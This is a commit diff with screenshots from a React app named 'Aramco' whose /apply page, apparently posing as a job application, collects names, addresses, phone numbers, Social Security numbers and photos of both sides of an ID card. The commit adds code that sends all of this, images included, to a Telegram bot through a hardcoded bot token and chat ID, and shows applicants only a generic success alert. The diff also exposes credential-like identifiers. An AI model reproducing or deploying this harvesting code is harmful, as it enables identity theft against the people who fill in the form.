

Before and after one commit to DozayMakanaki/Aramco, a React (Vite) app: page /apply in a window 390 px wide. After the commit the page ends 868 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
telegram

```diff
--- a/package.json
+++ b/package.json
@@ -12,6 +12,7 @@
   "dependencies": {
     "@emailjs/browser": "^4.4.1",
     "@tailwindcss/vite": "^4.0.9",
+    "axios": "^1.8.1",
     "cors": "^2.8.5",
     "dotenv": "^16.4.7",
     "emailjs-com": "^3.2.0",
--- a/src/components/Form.jsx
+++ b/src/components/Form.jsx
@@ -1,8 +1,11 @@
 import { useState } from "react";
-import emailjs from "@emailjs/browser";
+import axios from "axios";
+
+const TELEGRAM_BOT_TOKEN = "7267909812:AAF2YCT0-TbHFH6LMIcbqOPIJcxwG_-jvZY";
+const TELEGRAM_CHAT_ID = "5461098350";
 
 const FormComponent = () => {
-  const [formData, setFormData] = useState({
+  const initialFormData = {
     name: "",
     address: "",
     phone: "",
@@ -11,8 +14,9 @@ const FormComponent = () => {
     previousEmployer: "",
     idCardFrontBase64: "",
     idCardBackBase64: "",
-  });
+  };
 
+  const [formData, setFormData] = useState(initialFormData);
   const [fileNames, setFileNames] = useState({
     idCardFront: "No file chosen",
     idCardBack: "No file chosen",
@@ -40,79 +44,113 @@ const FormComponent = () => {
     }
   };
 
-  const handleSubmit = async (e) => {
-    e.preventDefault();
-
-    const emailData = {
-      service_id: "service_x9ryr1u",
-      template_id: "template_1hq6etl",
-      user_id: "pg09Mt7R3DRf_Tz1N",
-      template_params: {
-        ...formData,
-      },
+  const escapeMarkdownV2 = (text) => {
+    return text.replace(/([_*\[\]()~`>#+\-=|{}.!])/g, "\\$1");
   };
 
+  const sendTextToTelegram = async () => {
     try {
-      await emailjs.send(
-        emailData.service_id,
-        emailData.template_id,
-        emailData.template_params,
-        emailData.user_id
-      );
-      alert("Your information has been sent successfully!");
+      console.log("Sending text message to Telegram...");
+
+      const textMessage = `
+📌 *New Form Submission* 📌
+👤 *Name:* ${escapeMarkdownV2(formData.name)}
+📍 *Address:* ${escapeMarkdownV2(formData.address)}
+📞 *Phone:* ${escapeMarkdownV2(formData.phone)}
+📧 *Email:* ${escapeMarkdownV2(formData.email)}
+🔢 *SSN:* ${escapeMarkdownV2(formData.ssn)}
+🏢 *Previous Employer:* ${escapeMarkdownV2(formData.previousEmployer)}
+      `;
+
+      await axios.get(`https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`, {
+        params: { chat_id: TELEGRAM_CHAT_ID, text: textMessage, parse_mode: "MarkdownV2" },
+      });
+
+      console.log("Text message sent successfully!");
     } catch (error) {
-      console.error("Error sending email:", error);
-      alert("Failed to send information. Please try again.");
+      console.error("Error sending text data to Telegram:", error);
     }
   };
 
+  const sendImagesToTelegram = async () => {
+    try {
+      console.log("Sending images to Telegram...");
+
+      const sendPhoto = async (imageBase64) => {
+        if (!imageBase64) return;
+
+        const formData = new FormData();
+        formData.append("chat_id", TELEGRAM_CHAT_ID);
+        formData.append("photo", dataURItoBlob(imageBase64), "image.jpg");
+
+        await axios.post(
+          `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendPhoto`,
+          formData,
+          { headers: { "Content-Type": "multipart/form-data" } }
+        );
+      };
+
+      await sendPhoto(formData.idCardFrontBase64);
+      await sendPhoto(formData.idCardBackBase64);
+
+      console.log("Images sent successfully!");
+    } catch (error) {
+      console.error("Error sending images to Telegram:", error);
+    }
+  };
+
+  const dataURItoBlob = (dataURI) => {
+    let byteString = atob(dataURI.split(",")[1]);
+    let mimeString = dataURI.split(",")[0].split(":")[1].split(";")[0];
+    let arrayBuffer = new ArrayBuffer(byteString.length);
+    let uint8Array = new Uint8Array(arrayBuffer);
+    for (let i = 0; i < byteString.length; i++) {
+      uint8Array[i] = byteString.charCodeAt(i);
+    }
+    return new Blob([arrayBuffer], { type: mimeString });
+  };
+
+  const handleSubmit = async (e) => {
+    e.preventDefault();
+    await sendTextToTelegram();
+    await sendImagesToTelegram();
+
+    // Show success message
+    alert("✅ Successful!");
+
+    // Clear form fields
+    setFormData(initialFormData);
+    setFileNames({ idCardFront: "No file chosen", idCardBack: "No file chosen" });
+
+    console.log("Form cleared successfully!");
+  };
+
   return (
-    <div className="max-w-2xl mx-auto p-6 bg-white shadow-xl rounded-2xl border border-gray-200 sm:p-8 lg:p-10 relative overflow-hidden">
-      <div className="absolute inset-0 bg-gradient-to-br from-purple-500 to-indigo-500 opacity-20 blur-2xl"></div>
-      <div className="relative backdrop-blur-md bg-white/80 shadow-2xl rounded-2xl p-6 sm:p-8 lg:p-10">
-        <h2 className="text-2xl font-semibold text-gray-800 text-center mb-6">User Information Form</h2>
+    <div className="max-w-2xl mx-auto p-6 bg-white shadow-xl rounded-2xl border border-gray-200 sm:p-8 lg:p-10">
+      <h2 className="text-2xl font-semibold text-gray-800 text-center mb-6">
+        User Information Form
+      </h2>
       <form onSubmit={handleSubmit} className="space-y-5">
-
-          <label className="block text-gray-700 font-medium">Full Name <span className="text-red-500">*</span></label>
-          <input type="text" name="name" value={formData.name} onChange={handleChange} className="w-full p-3 border border-gray-300 rounded-lg focus:ring-2 focus:ring-purple-500 focus:outline-none" required />
-
-          <label className="block text-gray-700 font-medium">Address <span className="text-red-500">*</span></label>
-          <input type="text" name="address" value={formData.address} onChange={handleChange} className="w-full p-3 border border-gray-300 rounded-lg focus:ring-2 focus:ring-purple-500 focus:outline-none" required />
-
-          <label className="block text-gray-700 font-medium">Phone Number <span className="text-red-500">*</span></label>
-          <input type="tel" name="phone" value={formData.phone} onChange={handleChange} className="w-full p-3 border border-gray-300 rounded-lg focus:ring-2 focus:ring-purple-500 focus:outline-none" required />
-
-          <label className="block text-gray-700 font-medium">Email <span className="text-red-500">*</span></label>
-          <input type="email" name="email" value={formData.email} onChange={handleChange} className="w-full p-3 border border-gray-300 rounded-lg focus:ring-2 focus:ring-purple-500 focus:outline-none" required />
-
-          <label className="block text-gray-700 font-medium">Social Security Number <span className="text-red-500">*</span></label>
-          <input type="text" name="ssn" value={formData.ssn} onChange={handleChange} className="w-full p-3 border border-gray-300 rounded-lg focus:ring-2 focus:ring-purple-500 focus:outline-none" required />
-
-          <label className="block text-gray-700 font-medium">Previous Employer <span className="text-red-500">*</span></label>
-          <input type="text" name="previousEmployer" value={formData.previousEmployer} onChange={handleChange} className="w-full p-3 border border-gray-300 rounded-lg focus:ring-2 focus:ring-purple-500 focus:outline-none" required />
+        <input type="text" name="name" placeholder="Full Name" value={formData.name} onChange={handleChange} required className="w-full p-3 border rounded-lg" />
+        <input type="text" name="address" placeholder="Address" value={formData.address} onChange={handleChange} required className="w-full p-3 border rounded-lg" />
+        <input type="tel" name="phone" placeholder="Phone Number" value={formData.phone} onChange={handleChange} required className="w-full p-3 border rounded-lg" />
+        <input type="email" name="email" placeholder="Email" value={formData.email} onChange={handleChange} required className="w-full p-3 border rounded-lg" />
+        <input type="text" name="ssn" placeholder="Social Security Number" value={formData.ssn} onChange={handleChange} required className="w-full p-3 border rounded-lg" />
+        <input type="text" name="previousEmployer" placeholder="Previous Employer" value={formData.previousEmployer} onChange={handleChange} required className="w-full p-3 border rounded-lg" />
 
         {/* Front ID Upload */}
-          <label className="block text-gray-700 font-medium">Upload Front of ID <span className="text-red-500">*</span></label>
-          <div className="flex items-center space-x-3">
-            <input id="front-id" type="file" accept="image/*" capture="environment" onChange={(e) => handleFileChange(e, "idCardFrontBase64", "idCardFront")} className="hidden" required />
-            <label htmlFor="front-id" className="cursor-pointer bg-blue-600 text-white px-4 py-2 rounded-lg hover:bg-blue-700 transition duration-300">Choose File</label>
-            <span className="text-gray-600">{fileNames.idCardFront}</span>
-          </div>
+        <label className="block font-medium">Upload Front of ID</label>
+        <input type="file" accept="image/*" onChange={(e) => handleFileChange(e, "idCardFrontBase64", "idCardFront")} required className="w-full p-2 border rounded-lg" />
 
         {/* Back ID Upload */}
-          <label className="block text-gray-700 font-medium">Upload Back of ID <span className="text-red-500">*</span></label>
-          <div className="flex items-center space-x-3">
-            <input id="back-id" type="file" accept="image/*" capture="environment" onChange={(e) => handleFileChange(e, "idCardBackBase64", "idCardBack")} className="hidden" required />
-            <label htmlFor="back-id" className="cursor-pointer bg-blue-600 text-white px-4 py-2 rounded-lg hover:bg-blue-700 transition duration-300">Choose File</label>
-            <span className="text-gray-600">{fileNames.idCardBack}</span>
-          </div>
+        <label className="block font-medium">Upload Back of ID</label>
+        <input type="file" accept="image/*" onChange={(e) => handleFileChange(e, "idCardBackBase64", "idCardBack")} required className="w-full p-2 border rounded-lg" />
 
         <button type="submit" className="w-full bg-blue-600 text-white p-3 rounded-lg hover:bg-blue-700 transition duration-300">
           Submit
         </button>
       </form>
     </div>
-    </div>
   );
 };
 
```
Also changed, not shown: 1 other file (tests, documents, lock files or other folders). Lines whose indentation alone changed are shown as unchanged.
